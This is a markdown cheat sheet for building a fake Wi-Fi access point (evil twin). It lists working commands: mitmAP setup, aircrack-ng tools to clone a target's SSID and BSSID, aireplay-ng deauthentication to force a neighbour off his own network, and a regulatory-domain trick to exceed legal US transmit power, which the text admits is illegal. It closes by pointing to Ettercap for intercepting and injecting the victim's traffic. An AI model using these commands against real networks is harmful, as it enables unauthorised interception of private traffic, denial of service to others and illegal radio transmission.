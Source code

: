 # Fake Wifi AP

## MitmAP:

On Git folder:

	git clone https://github.com/xdavidhu/mitmAP
	cd mitmAP
	ip a (info about interface)
	python3 mitmAP.py (execute)
	
## Aircrack-ng:

Scan the network and wait for the client connect the network.

	iwconfig
	airmon-ng start wlan0
	airodump-ng wlan0mon

Create a new AP with same SSID & MAC address

	airbase-ng -a 00:09:5B:6F:64:1E --essid "Elroy" -c 11 mon0

	where 00:09:5B:6F:64:1E is the BSSID, Elroy is the SSID, and -c 11 is the channel of the suspect's AP.
	
Deauthentication or Bumping Him Off:

	aireplay-ng --deauth 0 -a 00:09:5B:6F:1E

	note that we once again used his BSSID in the aireplay-ng command. If our signal is stronger than his own AP, he will automatically reconnect to our evil twin!
	
Turn Up the Power:

	iwconfig wlan0 txpower 27

	this command will boost our power output to the maximum legally allowable in the United States, 27 dBm or 500 milliwatts.
	
In some cases, even boosting power to 500 mWs may prove to be inadequate. If we try to turn up the power to the maximum on our Alfa wireless cards—1,000 mWs or 30 dBm—we get the error message below (some of the newer cards can actually transmit at 2,000 mWs or four times what is legally allowable in the U.S.).
	
	iwconfig wlan0 txpower 30

This next step is illegal in the U.S., so be careful using it unless you have specific permission or are a member of law enforcement.

Every nation has its own set of Wi-Fi regulations. Some allow more power and more channels than the U.S. For instance, Bolivia allows the use of channel 12 and a full 1,000 mWs of power. We can get our Alfa card to use Bolivian regulations by simply typing:

	iw reg set BO

Now that we are in Bolivian regulatory domain, we can boost our power to its maximum by typing:

	iwconfig wlan0 txpower 30
	iwconfig (check output)

Now that we have our neighbor connected to our AP, we can take the next steps toward detecting his activity.

We can use software like Ettercap to conduct a man-in-the middle attack. This way, we can intercept, analyze, and even inject traffic to this user. In other words, because he has connected to our AP, we have almost total access to his data both coming and going. If he really is downloading or selling child porn, we can intercept it.